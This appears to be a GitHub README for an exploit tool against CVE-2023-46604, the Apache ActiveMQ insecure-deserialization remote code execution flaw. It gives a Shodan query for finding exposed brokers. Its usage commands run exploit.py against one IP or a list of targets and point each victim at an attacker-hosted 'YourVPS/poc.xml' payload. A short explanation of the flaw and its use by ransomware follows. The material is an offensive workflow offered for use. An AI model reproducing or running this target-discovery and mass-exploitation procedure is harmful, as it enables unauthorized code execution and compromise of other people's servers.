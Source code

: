 # CVE-2023-46604
Exploit for CVE-2023-46604
### This tool helps to exploit this vulnerability.
#### Shodan Query to find target:
```
product:"ActiveMQ" port:"61616"
```
#### Tools Usage:
```
for read targets from the file:
python3 exploit.py -f targets -c http://YourVPS/poc.xml
---
single target:
python3 exploit.py -ip IP -c http://YourVPS/poc.xml
```

## About this CVE:
CVE-2023-46604 is a critical remote code execution vulnerability in Apache ActiveMQ, an open-source message broker software. This vulnerability allows a remote attacker with network access to either a Java-based OpenWire broker or client to execute arbitrary shell commands. This is achieved by manipulating serialized class types in the OpenWire protocol, causing the broker to instantiate any class on the classpath. The vulnerability results from insecure deserialization within Apache ActiveMQ and has been exploited by attackers, including the HelloKitty ransomware family, to run ransomware binaries and fully compromise systems.
